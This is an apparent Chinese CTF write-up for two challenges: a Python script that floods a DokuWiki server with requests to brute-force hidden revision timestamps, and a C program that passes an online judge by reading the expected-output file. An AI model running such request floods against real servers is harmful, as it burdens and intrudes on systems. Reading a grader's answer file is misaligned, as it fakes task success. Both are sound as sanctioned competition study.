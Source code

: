 ## Flag 的痕迹

页面的 Revisions 被关闭了，但是查看特定 rev 还是可以使用的。

使用 [苏卡卡 CC 攻击大法](https://blog.skk.moe/post/hackergame-2020-write-up/#Mao-Mi-Wen-Da)，通过找到特定 rev 来获取 flag。

```python
import requests
headers = {} # 略
s = requests.Session()
host = "http://202.38.93.111:15004/"
for rev in range(1666396800, 1659244370, -1):
    print(rev)
    resp = s.get(f'{host}doku.php?rev={rev}',
                 headers=headers)
    if 'No such revision' not in resp.text:
        print(resp.text)
        exit()
```

找到 rev 有 [1665224447, 1665224461, 1665224470]，其中 1665224461 有 flag。

救救服务器！另一种解法是使用比较功能（`do=diff`），可以直接得到 Revisions...

## 安全的在线测评

### 无法 AC 的题目

阅读判题脚本后可以发现，静态数据的输入在`data/static.in`中，输出在`data/static.out`中。写一个 C 程序，读取`data/static.out`并输出就可以 AC 了。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  FILE *fptr;
  char c;
  fptr = fopen("./data/static.out", "r");
  if (fptr == NULL) {
    printf("Cannot open file \n");
    exit(1);
  }
  c = fgetc(fptr);
  while (c != EOF) {
    printf("%c", c);
    c = fgetc(fptr);
  }
  fclose(fptr);
  return 0;
}
```
